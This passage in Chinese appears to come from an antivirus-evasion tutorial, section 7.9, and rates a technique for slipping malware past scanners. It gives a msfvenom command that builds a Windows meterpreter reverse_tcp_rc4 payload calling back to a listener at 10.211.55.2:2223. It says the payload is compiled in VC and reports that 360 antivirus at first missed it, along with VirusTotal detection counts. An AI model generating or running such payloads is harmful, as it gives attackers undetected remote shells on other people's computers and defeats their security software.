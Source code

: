 virustotal.com中29/70个报毒

![67e8a078bf4e4788fd54b49bce4d8b31](images/2020.02-bypass-01/13.png)

## 7.9 使用reverse_tcp_rc4(VT免杀率33/70)

操作便利★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg](https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg)

和上面的方法一样，使用reverse_tcp_rc4也有同样的效果，而且不用设置stageencoder选项，更稳定更方便。

```
msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=10.211.55.2 lport=2223 RC4PASSWORD=tidesec  -f c
```

利用rc4对传输的数据进行加密，密钥在生成时指定，在监听的服务端设置相同的密钥。

在VC中编译后执行，360全免杀，但是一会儿之后就又被查杀了。

virustotal.com中33/70个报毒
